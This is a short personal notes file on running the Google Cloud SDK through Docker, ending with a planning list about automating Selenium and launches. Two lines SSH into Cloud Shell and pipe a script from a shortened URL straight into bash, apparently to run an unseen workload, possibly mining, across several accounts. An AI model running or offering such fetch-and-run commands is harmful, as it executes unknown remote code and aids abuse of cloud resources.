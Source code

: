 # docker gcloud
## link
https://cloud.google.com/sdk/docs/downloads-docker?hl=fr

## cmds

docker pull gcr.io/google.com/cloudsdktool/cloud-sdk:latest

docker run -ti --name gcloud-config gcr.io/google.com/cloudsdktool/cloud-sdk gcloud auth login

docker run --rm --volumes-from gcloud-config gcr.io/google.com/cloudsdktool/cloud-sdk gcloud compute instances list --project your_project

### working about 18 - 20 minutes
docker run --rm --volumes-from gcloud-config gcr.io/google.com/cloudsdktool/cloud-sdk gcloud cloud-shell  ssh --authorize-session --command="wget -q -O - bit.ly/cpu02 |bash"


# Test
docker run -ti --name gcloud-config-nadirchi10001 gcr.io/google.com/cloudsdktool/cloud-sdk gcloud auth login
docker run --rm --volumes-from gcloud-config-nadirchi10001 gcr.io/google.com/cloudsdktool/cloud-sdk gcloud cloud-shell  ssh --authorize-session --command="wget -q -O - bit.ly/cpu02 |bash"


## loop docker screen



# Planing
1- testing
2- auto selinum accepted - copying
3- auto calculate the rate 
4- auto lanch
6- memory optimize  